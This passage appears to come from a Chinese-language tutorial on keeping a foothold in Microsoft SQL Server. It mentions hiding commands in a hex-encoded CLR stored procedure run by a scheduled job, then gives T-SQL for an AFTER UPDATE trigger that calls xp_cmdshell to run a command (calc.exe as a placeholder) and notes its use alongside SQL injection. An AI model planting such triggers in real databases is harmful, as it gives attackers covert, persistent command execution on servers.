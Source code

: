    ![](./media/计划.png)

   此外，可以使用十六进制CLR新建一个存储过程然后用计划作业执行存储过程，这样更加隐蔽。

   

2. 触发器

   触发器用于在执行指定语句动作之后执行sql语句，如update,可配合注入使用

   ```
   SET ANSI_NULLS ON
   GO
   SET QUOTED_IDENTIFIER ON
   GO                             
   CREATE TRIGGER [test222]
      ON [test]
      AFTER UPDATE           /*建立一个作用于表test的、
                               类型为After update的、名为test222的触发器*/
   AS 
   BEGIN
              EXECUTE MASTER.DBO.XP_CMDSHELL 'cmd.exe /c calc.exe'
   END
   GO
   ```
